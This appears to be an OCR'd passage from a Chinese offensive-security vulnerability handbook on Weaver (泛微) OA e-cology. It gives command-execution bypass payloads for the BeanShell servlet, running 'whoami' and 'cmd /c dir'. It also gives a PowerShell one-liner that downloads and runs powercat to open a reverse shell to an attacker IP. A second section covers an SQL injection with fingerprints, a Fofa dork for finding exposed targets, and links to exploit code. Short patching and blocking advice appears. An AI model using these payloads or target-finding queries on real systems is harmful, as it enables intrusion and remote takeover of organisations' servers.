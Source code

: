 1. 其他形式绕过

`eval%00("ex"%2b"ec(\"whoami\")");` 也可以换成 `ex\u0065c("cmd /c dir");`

2. 泛微多数都是 windows 环境, 反弹 shell 可以使用 pcat

`Powershell`

`IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd`

**8.** **防护方法**

1. 及时更新泛微补丁

2. 拦截`/weaver/bsh.servlet.BshServlet`目录的访问

2

  

泛微 OA e-cology SQL 注入漏洞
-----------------------

**1.** **漏洞简介**

泛微 OA 在国内的用户很多, 漏洞以前也很多, 但现在在漏洞盒子托管了企业 SRC https://weaversrc.vulbox.com/, 情况有所好转

**2.** **影响组件**

泛微 OA

**3.** **漏洞指纹**

`Set-Cookie: ecology_JSessionId=`

`ecology`

`WorkflowCenterTreeData`

`/mobile/plugin/SyncUserInfo.jsp`

**4. Fofa Dork**

`app="``泛微-协同办公OA"`

**5.** **漏洞分析**

泛微 OA WorkflowCenterTreeData 接口注入漏洞 (限 oracle 数据库) – 先知社区  
https://xz.aliyun.com/t/6531

**6.** **漏洞利用**

泛微 OA e-cology WorkflowCenterTreeData 前台接口 SQL 注入漏洞复现_数据库_小龙人 - CSDN 博客  
https://blog.csdn.net/zycdn/article/details/102494037

Tentacle/ecology8_mobile_sql_inject.py at 6e1cecd52b10526c4851a26249339367101b3ca2 · orleven/Tentacle  
https://github.com/orleven/Tentacle/blob/6e1cecd52b10526c4851a26249339367101b3ca2/script/ecology/ecology8_mobile_sql_inject.py

应用安全 – 软件漏洞 – 泛微 OA 漏洞汇总 – AdreamWillB – 博客园  
https://www.cnblogs.com/AtesetEnginner/p/11558469.html

